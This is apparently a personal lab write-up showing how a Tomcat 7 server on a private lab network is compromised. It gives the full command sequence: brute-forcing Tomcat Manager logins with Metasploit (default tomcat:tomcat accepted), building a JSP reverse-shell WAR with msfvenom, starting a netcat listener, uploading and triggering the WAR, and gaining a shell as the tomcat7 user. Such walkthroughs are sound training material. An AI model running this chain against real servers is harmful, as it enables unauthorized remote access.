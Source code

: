 # ☁️ Tomcat Reverse Shell via WAR Upload (Port 8081)

> This section explains how I brute-forced Tomcat credentials, uploaded a WAR reverse shell, and gained access to the target server.

---

## 🧪 Lab Details

- **Target IP**: 192.168.182.128  
- **Port**: 8081  
- **Service**: Apache Tomcat 7  
- **Attacker IP**: 192.168.182.129

---

## 🔍 Step 1: Service Discovery

Browser: http://192.168.182.128:8081  
Prompted with a login popup for **Tomcat Manager**.

---

## 🔐 Step 2: Credential Brute-Force

Used Metasploit module:
```bash
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 192.168.182.128
set RPORT 8081
run
```
```bash
tomcat:tomcat
```
📌 Result: Login Successful → Default creds or weak creds were accepted.

---

## ☠️ Step 3: Payload Creation (WAR Shell)

Created WAR reverse shell using `msfvenom`:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.182.129 LPORT=4444 -f war -o shell.war
```

Started Netcat listener:
```bash
nc -lvnp 4444
```

---

## 🚀 Step 4: WAR Upload & Exploitation

1. Logged into Tomcat Manager Web Interface
2. Uploaded `shell.war`
3. Navigated to deployed path:
```bash
http://192.168.182.128:8081/shell/  (calls the shell)
```

✅ Result: Reverse shell connected back to attacker's Netcat listener

---

## 🧠 Step 5: Privilege Level

Once shell was obtained:
```bash
whoami
→ tomcat7
```

Gained shell access as **tomcat7** user.

---

## 🔐 Summary

| Element       | Details                        |
|---------------|---------------------------------|
| Service       | Apache Tomcat 7                |
| Exploit       | WAR file upload                |
| Credentials   | Brute-forced via Metasploit    |
| Shell Type    | Reverse shell (Netcat)         |
| User          | tomcat7                        |


